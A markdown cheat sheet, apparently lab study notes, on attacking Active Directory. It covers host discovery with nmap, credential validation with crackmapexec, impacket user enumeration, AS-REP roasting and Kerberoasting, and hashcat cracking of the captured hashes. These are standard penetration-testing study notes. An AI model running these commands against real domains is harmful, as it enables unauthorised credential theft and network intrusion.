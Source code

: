 ### Active Directory

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and 88 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

### How to know extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

### How to know that username/password combination is valid ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`
   
#### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

#### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

#### Using impacket - Kerberoasting?
1. Command: `proxychains GetUserSPNs.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -request`
2. Cracking hashes: `hashcat -m 13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt`
